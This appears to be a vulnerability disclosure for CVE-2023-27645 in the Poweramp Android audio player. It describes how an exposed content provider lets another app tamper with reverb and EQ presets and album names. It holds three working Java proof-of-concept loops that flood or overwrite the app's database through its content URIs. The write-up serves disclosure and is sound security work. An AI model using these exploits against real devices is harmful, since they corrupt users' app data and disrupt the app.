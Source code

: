 ## Escalation of Privileges exists in POWERAMP（CVE-2023-27645）

Vendor：POWERAMP(https://powerampapp.com/)

Affected product：Poweramp (com.maxmpz.audioplayer)

Version：build-954-uni

Download link：https://play.google.com/store/apps/details?id=com.maxmpz.audioplayer

Description of the vulnerability for use in the CVE：An issue found in POWERAMP audioplayer build 925 bundle play and build 954 allows a remote attacker to gain privileges via the reverb and EQ preset parameters.

Additional information：Poweramp application is a famous music player used in Android system. During the initialization phase, the application reads data saved in the database. Some of this data is used for UI display, such as album names, while others are used for application function settings, such as reverb and EQ presets. If a malicious application modifies the aforementioned key data in the database, it can cause UI hijacking, such as arbitrary modification of album names, and function manipulation, such as arbitrary setting of reverb effects.



1.After inserting a large amount of data into the database, it will cause the reverb effect preset selection to disappear, the main page UI to fail, no touch feedback, and the attacker can insert any set reverb effect; in addition, the attacker can also modify the value of the original default reverb effect, or even adjust all to zero to make the reverb effect off.

poc：

```java
    public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/reverb_presets");
        while (true) {
            ContentValues contentValues = new ContentValues();
          	String randomString = getRandomString(5120);
            contentValues.put("name","hack");
            contentValues.put("_data","1=0.0;2=0.0;3=0.0;4=0.0;5=0.0;6=0.0;7=0.0;8=0.0;");
            contentResolver.insert(uri,contentValues);
        }
    }
```

<img src="CVE detail.assets/image-20230410154833746.png" alt="image-20230410154833746" style="zoom:67%;" />





2.By inserting data into the database or modifying existing data, the attacker can arbitrarily set the initial values of various audio effects or arbitrarily add custom audio effects.

poc：

```java
public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/eq_presets");
        while (true) {
            ContentValues contentValues = new ContentValues();
            String randomString = getRandomString(5120);    	               					contentValues.put("_data","31=0.0;62=0.0;125=0.0;250=0.0;500=0.0;1K=0.0;2K=0;4K=0;8K=0;16K=0;preamp=0");        
            contentResolver.update(uri,contentValues,null,null);
        }
    }
```

<img src="CVE detail.assets/image-20230410154938472.png" alt="image-20230410154938472" style="zoom:67%;" />

<img src="CVE detail.assets/image-20230410154957316.png" alt="image-20230410154957316" style="zoom:67%;" />

3.Modifying the album name in the database will cause the UI content of the Albums page to be tampered with, and will affect the album display when the song is played.

poc：

```java
public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/albums");
        while (true) {
            ContentValues contentValues = new ContentValues();
            String randomString = getRandomString(5120);
            contentValues.put("album",randomString);
            contentResolver.update(uri,contentValues,null,null);
        }
    }
```



<img src="CVE detail.assets/image-20230410155037946.png" alt="image-20230410155037946" style="zoom:67%;" />
